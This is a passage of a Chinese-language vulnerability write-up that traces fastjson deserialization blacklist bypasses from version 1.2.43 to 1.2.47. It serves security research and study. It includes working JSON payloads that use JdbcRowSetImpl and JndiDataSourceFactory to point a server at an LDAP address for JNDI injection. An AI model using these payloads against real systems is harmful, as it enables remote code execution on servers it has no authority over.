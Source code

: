 ### 4. fastjson-1.2.43

这个版本主要是修复上一个版本中双写绕过的问题。

> 影响版本：`1.2.25 <= fastjson <= 1.2.43`
> 描述：上有政策，下有对策。在 `L`、`;` 被进行了限制后，安全研究人员将目光转向了 `[`。

可以看到用来检查的 `checkAutoType` 代码添加了判断，如果类名连续出现了两个 `L` 将会抛出异常，

![](../images/1616469807043.png)

这样使用 `L`、`;` 绕过黑名单的思路就被阻挡了，但是在 `loadClass` 的过程中，还针对 `[` 也进行了处理和递归，能不能利用 `[` 进行黑名单的绕过呢？

答案当然是可以的：

```json
{
	"@type":"[com.sun.rowset.JdbcRowSetImpl"[,
	{"dataSourceName":"ldap://127.0.0.1:23457/Command8",
	"autoCommit":true
}
```

### 5. fastjson-1.2.44

这个版本主要是修复上一个版本中使用 `[` 绕过黑名单防护的问题。

> 影响版本：`1.2.25 <= fastjson <= 1.2.44`
> 描述：在此版本将 `[` 也进行修复了之后，由字符串处理导致的黑名单绕过也就告一段落了。

可以看到在 `checkAutoType` 中添加了新的判断，如果类名以 `[` 开始则直接抛出异常。

![](../images/1616475393707.png)


### 6. fastjson-1.2.45

在此版本爆出了一个黑名单绕过，实际上，黑名单是无穷无尽的，随着 fastjson 的版本更新，一定会有更多的黑名单爆出来，因为隔壁 jackson 都是明文黑名单的，只要隔壁一更新，大家都看到了，就会拿来看 fastjson。

> 影响版本：`1.2.25 <= fastjson <= 1.2.45`
> 描述：黑名单列表需要不断补充。

```json
{
    "@type":"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory",
    "properties":{
        "data_source":"ldap://127.0.0.1:23457/Command8"
    }
}
```

### 7. fastjson-1.2.47

在 fastjson 不断迭代到 1.2.47 时，爆出了最为严重的漏洞，可以在不开启 AutoTypeSupport 的情况下进行反序列化的利用。

> 影响版本：`1.2.25 <= fastjson <= 1.2.32  未开启 AutoTypeSupport `
> 影响版本：`1.2.33 <= fastjson <= 1.2.47`
> 描述：作者删除了一个 fastjson 的测试文件：`https://github.com/alibaba/fastjson/commit/be41b36a8d748067ba4debf12bf236388e500c66` ，里面包含了这次通杀漏洞的 payload。

